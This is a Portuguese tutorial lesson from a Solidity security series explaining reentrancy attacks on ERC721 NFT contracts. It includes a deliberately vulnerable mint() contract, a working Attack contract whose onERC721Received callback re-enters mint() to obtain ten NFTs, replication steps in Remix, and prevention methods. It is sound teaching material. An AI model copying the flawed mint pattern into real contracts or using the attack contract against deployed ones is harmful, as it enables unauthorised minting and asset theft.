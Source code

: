 # Segurança do Contrato Solidity: S16. Ataque de Reentrada em NFT

Recentemente, tenho revisitado o aprendizado de Solidity para reforçar os detalhes e estou escrevendo um "Guia de Iniciação Rápida para Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 palestras.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WhatsApp](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

-----

Nesta palestra, vamos falar sobre a vulnerabilidade de ataque de reentrada em contratos NFT e atacar um contrato NFT com falhas para criar 10 NFTs.

## Risco de Reentrada em NFT

Já discutimos em [S01 Ataque de Reentrada](../S01_ReentrancyAttack/readme_pt-br.md) que o ataque de reentrada é um dos ataques mais comuns nos contratos inteligentes, onde um invasor, por meio de uma vulnerabilidade no contrato (como a função `fallback`), faz chamadas repetidas ao contrato para transferir ativos ou criar muitas tokens. Quando se trata de transferir NFTs, eles não acionam as funções `fallback` ou `receive` dos contratos. Por que ainda há risco de reentrada?

Isso ocorre porque os padrões de NFT (ERC721/ERC1155) adicionaram uma verificação segura para garantir que os ativos de NFT não sejam acidentalmente enviados para um endereço inválido. Quando um NFT é transferido para um contrato, ele chama a função de verificação correspondente desse contrato, garantindo que esteja pronto para receber o ativo de NFT. Por exemplo, a função `safeTransferFrom()` do `ERC721` chama a função `onERC721Received()` do endereço de destino, o que pode ser explorado por um hacker para lançar um ataque.

Aqui estão as funções do `ERC721` e `ERC1155` que têm potencial para risco de reentrada:

![](./img/S16-1.png)

## Exemplo de Vulnerabilidade

Vamos analisar um exemplo de contrato NFT com vulnerabilidade de reentrada. Este contrato `ERC721` permite a cada endereço criar um NFT gratuitamente, mas um ataque de reentrada pode permitir a criação de vários NFTs de uma só vez.

### Contrato com Vulnerabilidade

O contrato `NFTReentrancy` herda o contrato `ERC721` e possui 2 variáveis de estado principais: `totalSupply`, que rastreia o total de NFTs criados, e `mintedAddress`, que armazena os endereços que já criaram NFTs para evitar múltiplas criações. Ele possui 2 funções principais:
- Construtor: Inicializa o nome e o símbolo da coleção de NFTs para o `ERC721`.
- `mint()`: Função de criação, onde cada usuário pode criar um NFT gratuitamente. **Atenção: esta função apresenta uma vulnerabilidade de reentrada!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    
    // Construtor, inicializa o nome e símbolo da coleção NFT
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Função de criação de NFT, cada usuário só pode criar 1 NFT
    // Tem vulnerabilidade de reentrada
    function mint() payable external {
        // Verifica se o endereço já criou um NFT
        require(mintedAddress[msg.sender] == false);
        // Incrementa o total de NFTs
        totalSupply++;
        // Cria o NFT
        _safeMint(msg.sender, totalSupply);
        // Registra o endereço que criou o NFT
        mintedAddress[msg.sender] = true;
    }
}
```

### Contrato de Ataque

O contrato `Attack` herda o contrato `IERC721Receiver` e possui 1 variável de estado `nft` que armazena o endereço do contrato NFT com vulnerabilidade. Ele possui 3 funções:
- Construtor: Inicializa o endereço do contrato NFT com vulnerabilidade.
- `attack()`: Função de ataque, que chama a função `mint()` do contrato NFT para iniciar o ataque.
- `onERC721Received()`: Função de retorno de chamada do ERC721 com código malicioso incorporado, que chama repetidamente a função `mint()` e cria 10 NFTs.

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // Endereço do contrato NFT com vulnerabilidade

    // Inicializa o endereço do contrato NFT
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Função de ataque, inicia o ataque
    function attack() external {
        nft.mint();
    }

    // Função de retorno de chamada do ERC721, que chama a função mint repetidamente e cria 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Replicação no Remix

1. Implante o contrato `NFTReentrancy`.
2. Implante o contrato `Attack`, inserindo o endereço do contrato `NFTReentrancy` como parâmetro.
3. Chame a função `attack()` do contrato `Attack` para iniciar o ataque.
4. Chame a função `balanceOf()` do contrato `NFTReentrancy` para consultar a posse do contrato `Attack`. Você verá que ele possui 10 NFTs, com o ataque bem-sucedido.

![](./img/S16-2.png)

## Métodos de Prevenção

Existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação (checks-effect-interaction) e o uso de bloqueios de reentrada.

1. Modelo de Verificação-Impacto-Interação: Este modelo enfatiza que ao escrever funções, deve-se primeiro verificar se as variáveis de estado estão de acordo com os requisitos, em seguida, atualizá-las (por exemplo, saldo), e por último interagir com outros contratos. Podemos corrigir a função `mint()` vulnerável usando este modelo.

2. Bloqueio de Reentrada: É um modificador utilizado para evitar funções de reentrada. Recomendamos o uso do [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard), fornecido pela OpenZeppelin.

## Conclusão

Nesta palestra, abordamos a vulnerabilidade de ataques de reentrada em contratos NFT e realizamos um ataque bem-sucedido a um contrato NFT com falhas, criando 10 NFTs. Atualmente, existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação e o uso de bloqueios de reentrada.

